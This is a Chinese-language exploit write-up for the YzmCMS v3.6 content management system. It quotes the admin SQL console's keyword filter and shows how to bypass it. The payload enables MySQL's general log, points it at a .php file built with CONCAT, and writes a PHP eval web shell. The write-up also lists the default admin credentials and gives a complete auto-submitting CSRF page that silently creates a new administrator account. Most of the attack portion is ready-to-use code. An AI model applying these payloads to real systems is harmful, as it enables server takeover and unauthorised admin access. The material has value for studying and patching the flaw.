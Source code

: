 # YzmCMS v3.6 csrf

> 原文：[http://book.iwonder.run/0day/YzmCMS/YzmCMS v3.6 csrf.html](http://book.iwonder.run/0day/YzmCMS/YzmCMS v3.6 csrf.html)

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

1、文件位置: /application/admin/controller/sql.class.php 第 10-42 行中：

```
public function init() {  
    if(isset($_POST['sqlstr'])){  
        if(!C('sql_execute')) showmsg('根据系统配置，不允许在线执行 SQL 命令！', 'stop');  
        $sqlstr = MAGIC_QUOTES_GPC ? stripslashes($_POST['sqlstr']) : $_POST['sqlstr'];  
        $sqlstr = rtrim(trim($sqlstr), ';');  
        $sqls = $_POST['action']=='many' ? explode(';', $sqlstr) : array(0 => $sqlstr);  

        $admin = D('admin');  
        foreach($sqls as $sql){  
10\.             if(stristr($sql, 'outfile')){  
11\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “outfile”！</span>';  
12\.                 break;  
13\.             }  
14\.             if(stristr($sql, '.php')){  
15\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “.php” ！</span>';  
16\.                 break;  
17\.             }  
18\.             if(preg_match("/^drop(.*)database/i", $sql)){  
19\.                 $str = '<span class="c-red">ERROR : 不允许删除数据库！</span>';  
20\.                 break;  
21\.             }  
22\.             $result = $admin->query($sql);   
23\.             if($result){  
24\.                 $str = '<span style="color:green">OK : 执行成功！</span>';  
25\.                 if(is_object($result) || is_resource($result)){  
26\.                     $arr = $admin->fetch_all($result);  
27\.                 }                     
28\.             }else{  
29\.                 $str = '<span class="c-red">ERROR : 执行失败！</span>';  
30\.                 break;  
31\.             }                 
32\.         }  
33\.     } 
```

这段函数中对提交的 sql 参数进行还原处理，然后进行非法字符检测，检测字符是否存在”oufile”、”.php”,匹配是否有删除数据的操作等。

2、如何绕过这种限制？

首页，outfile 被禁止，第一时间想到的就是 SQL 语句利用日志写入文件，但是写入脚本文件”.php”会被检测到非法字符；然后，尝试 MySQL 中 concat 函数来连接字符串，拆分’.php’关键词，如 CONCAT("test.","php");最后构造出可以写入文件，绕过非法字符检测的的 SQL 语句，从而触发代码执行漏洞，控制服务器。

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启 general log 模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入 shell 
```

### 漏洞复现

#### 如何获取后台管理员权限

有两种思路：

思路 A：通过默认信息，弱口令登录

默认后台路径：[http://www.0-sec.org/admin/index/login.html](http://www.0-sec.org/admin/index/login.html)

管理员默认账号密码均为：yzmcms

思路 B：通过 CSRF 漏洞，诱导管理员访问，自动在后台添加管理员账号。

CSRF 漏洞利用代码如下：

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">  

<html>  
<head>  
<title>OWASP CRSFTester Demonstration</title>  
</head>  
<body οnlοad="javascript:fireForms()">  
<script language="JavaScript">  
var pauses = new Array( "68" );  

 function pausecomp(millis)  

 {  

     var date = new Date();  
    var curDate = null;  

     do { curDate = new Date(); }  
     while(curDate-date < millis);  
 }  

 function fireForms()  

 {  

     var count = 1;  
     var i=0;  

     for(i=0; i<count; i++)  
     {  
         document.forms[i].submit();  

         pausecomp(pauses[i]);  
     }  
 }  

 </script>  

 <H2>OWASP CRSFTester Demonstration</H2>  

 <form method="POST" name="form0" action="http://127.0.0.1:80/admin/admin_manage/add.html">  

 <input type="hidden" name="adminname" value="admin"/>  

 <input type="hidden" name="password" value="abc123!"/>  

 <input type="hidden" name="password2" value="abc123!"/>  

 <input type="hidden" name="email" value=""/>  

 <input type="hidden" name="realname" value=""/>  

 <input type="hidden" name="roleid" value="1"/>  

 <input type="hidden" name="dosubmit" value="1"/>  

 </form>  

 </body>  

 </html> 
```

